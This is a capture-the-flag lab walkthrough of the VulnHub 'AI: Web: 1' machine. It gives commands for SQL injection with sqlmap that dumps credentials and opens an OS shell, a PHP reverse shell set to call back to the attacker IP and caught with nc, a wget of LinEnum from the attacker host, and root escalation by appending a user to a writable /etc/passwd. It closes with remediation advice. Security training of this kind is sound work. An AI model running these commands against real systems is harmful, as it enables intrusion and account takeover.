




# AI: Web: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.13.131 |
| **Attacker IP** | 192.168.13.132 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag (`flag.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ai-web-1-vulnhub-walkthrough/) |

## Attack Summary

AI: Web: 1 presents a single HTTP service. The `robots.txt` file reveals hidden directories, and a User ID submission form is vulnerable to SQL injection. sqlmap is used to dump credentials from the database and gain an OS shell. The OS shell exposes a world-writable `/etc/passwd`, which is modified to add a root-level user for privilege escalation.

## Methodology

1. Host discovery and port scan
2. Web enumeration via `robots.txt` and directory browsing
3. SQL injection discovery and exploitation with sqlmap
4. OS shell via sqlmap `--os-shell`
5. PHP reverse shell upload and catch
6. Privilege escalation via writable `/etc/passwd`

---

## Step 1: Host Discovery and Port Scan

```bash
netdiscover -r 192.168.13.0/24
nmap -A 192.168.13.131
```

**Open ports:**

| Port | Service |
|---|---|
| 80 | HTTP (Apache) |

The nmap output reveals `robots.txt` and discloses paths: `/m3diNf0/` and `/se3reTdir777/uploads/`.



---

## Step 2: Web Enumeration

Browse to `http://192.168.13.131` — the index displays a taunting message.

Navigate to `/m3diNf0/`:

```bash
dirb http://192.168.13.131/m3diNf0/
```

Directory brute-force finds `info.php`, which discloses the full server path:

```
Document Root: /home/www/html/web1x443290o2sdf92213
```

Navigate to `/se3reTdir777/` — a User ID form is present.

---

## Step 3: SQL Injection Discovery

Entering `1` into the form returns:
```
First name: admin
Last name: admin
```

Entering `1'` or `1 OR 1=1` causes an error — the input is not sanitized.

Capture the request with Burp Suite and save it as `req.txt`.


---

## Step 4: Database Dump with sqlmap

```bash
# Identify databases
sqlmap -r req.txt -D aiweb1 --dbs --batch

# Dump all tables and data
sqlmap -r req.txt -D aiweb1 --dump-all --batch
```

Recovered credentials:

| ID | Username | Password |
|---|---|---|
| 1 | t00r | FakeUserPassw0rd |
| 2 | aiweb1pwn | MyEvilPass_f908sdaf9_sadfasf0sa |
| 3 | u3er | N0tThisOneAls0 |

sqlmap also identifies a file upload endpoint at `/se3reTdir777/uploads/`.



---

## Step 5: OS Shell via sqlmap

```bash
sqlmap -r req.txt -D aiweb1 --os-shell
```

When prompted:
- Web application language: **PHP**
- Confirm full path disclosure: **yes**
- Writable path: `/home/www/html/web1x443290o2sdf92213`

An interactive OS shell is returned.

```bash
# Verify access
id
cat /etc/passwd
```

---

## Step 6: PHP Reverse Shell Upload

Edit `/usr/share/webshells/php/php-reverse-shell.php`:

```php
$ip = '192.168.13.132';
$port = 1234;
```

Upload the shell via the discovered upload endpoint at `http://192.168.13.131/se3reTdir777/uploads/tmputvpz.php`.

Start a listener:

```bash
nc -lvp 1234
```

Browse to the uploaded shell:

```
http://192.168.13.131/se3reTdir777/uploads/php-reverse-shell.php
```

A shell is received as `www-data`.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 7: Privilege Escalation — Writable /etc/passwd

Run LinEnum to enumerate misconfigurations:

```bash
# On attacker
python3 -m http.server 8000

# On target
cd /tmp
wget http://192.168.13.132:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

LinEnum reports that `/etc/passwd` is world-writable.

Generate a password hash for a new root user:

```bash
openssl passwd -1 -salt user3 pass123
# Output: $1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

Append the new root user:

```bash
echo 'raj:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash' >> /etc/passwd
```

Switch to the new user:

```bash
su raj
# Password: pass123

id
# uid=0(root) gid=0(root)

cd /root
cat flag.txt
```



---

## Lessons Learned

- `robots.txt` should not expose sensitive directory paths — it is publicly readable and acts as a roadmap for attackers.
- SQL injection in a User ID parameter with no sanitization allows complete database extraction and OS-level command execution via sqlmap.
- World-writable `/etc/passwd` is a critical misconfiguration that allows any user to add a root-privileged account.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection in User ID form | Use parameterized queries or prepared statements; sanitize all input |
| `robots.txt` path disclosure | Remove sensitive paths from `robots.txt`; restrict access at the web server level |
| OS shell via sqlmap | Restrict database user privileges; disable `FILE` privilege in MySQL |
| World-writable `/etc/passwd` | Set correct permissions: `chmod 644 /etc/passwd` |
| File upload endpoint | Validate file type, size, and content; store uploads outside the web root |
